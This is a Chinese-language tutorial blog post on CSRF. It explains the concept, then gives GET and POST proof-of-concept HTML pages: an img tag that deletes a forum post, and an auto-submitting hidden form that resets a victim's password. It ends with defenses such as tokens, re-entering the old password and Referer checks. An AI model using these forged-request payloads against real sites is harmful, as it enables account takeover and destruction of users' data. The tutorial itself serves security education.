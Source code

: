 +++
date = "2016-06-28T09:21:34+08:00"
description = ""
draft = false
tags = ["csrf"]
title = "CSRF漏洞"
topics = ["Pentest"]

+++

### 0x00 概念
当你登陆某个网站时，通常浏览器与网站都会形成一个会话，在会话没有结束时你可以执行发表文章、发邮件、删除文章等操作，若会话结束，你再操作的话会提示你会话已经结束，请重新登陆。  

CSRF就是：攻击者通过一些技术手段欺骗用户的<font color="FF0000">浏览器</font>去<font color="FF0000">访问</font>一个自己曾<font color="FF0000">认证过</font>的网站并<font color="FF0000">执行某些操作</font>。也可以说CSRF就是黑客利用受害者的Cookie骗取服务器的信任从而执行某些操作

### 0x01 利用
* 利用条件
    * 攻击者可以得知url的所有参数项并了解其含义
    * 诱导用户访问构造好的POC

* 利用地方
    * 操作是有意义的(比如:修改密码等)
    * 验证过于简单(参数固定、我们可以设置参数)

### 0x02 GET型CSRF攻击
```
若有论坛www.aa.com，论坛删除文章的操作是请求类似
http://www.aa.com/opt.php?id=135&act=del&name=Tom的链接
```
```
有用户A，他登陆了论坛，且有篇文章id为251，那么他的浏览器此时已经取得了论坛的信任
```
```
此时有hacker用户B，他构造了一个html为b.html，b.html内容如下：
<html>
<head>
    <title>test</title>
</head>
<body>
    <img src="http://www.aa.com/opt.php?id=251&act=del&name=A" />
</body>
</html>
将b.html放在他自己搭建的网站上，网址为http://www.bb.com/b.html
```
```
恶意用户B将链接http://www.bb.com/b.html通过qq发送给用户A，
诱使他访问，用户A一旦访问，他id为251的文章就会被删除
```

### 0x03 POST型CSRF攻击
若网站www.xx.com有让用户修改密码的功能，但验证过于简单，形如下图：
![csrf_post利用](/img/post/csrf_post.png)
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>aa</title>
</head>
<body>
    <form action="http://172.23.10.200/setpasswd.php" method="post">
        昵称：<input type="text" name="nickname" id="nickname" value="xxxxx">
        用户名：<input type="text" name="name" id="name" value="xiaoming">
        密码：<input type="passwd" name="passwd" id="passwd" value="">
        确认密码：<input type="rpasswd" name="rpasswd" id="rpasswd" value="">
        <input type="submit" name="button" value="提交">
    </form>
</body>
</html>
```
此时我们就可以构造自动提交表单的xxxx.html，内容如下：
```html
<html>
<head>
    <title>aa</title>
</head>
<body>
    <form name="csrf" action="http://172.23.10.200/setpasswd.php" method="post">
        <input type="hidden" name="passwd" id="passwd" value="666666">
        <input type="hidden" name="rpasswd" id="rpasswd" value="666666">
    </form>
    <script>
        setTimeout("document.csrf.submit()",100);
    </script>
</body>
</html>
```
然后将连接```http://www.bb.com/xxxx.html``` 发送给用户,诱使他点击链接,一旦他点击,则密码就会被修改

### 0x04 防御：
* 对于修改密码的表单可以要求输入原密码  
* 二次确认(如删除用户、转账等重要操作弹窗要求用户确认)
* Token认证  
    * GET操作请求：可以在Cookie中存储Token  
    * POST操作请求：可以在form表单中添加一个隐藏的input标签，value值为Token
* 验证Referer
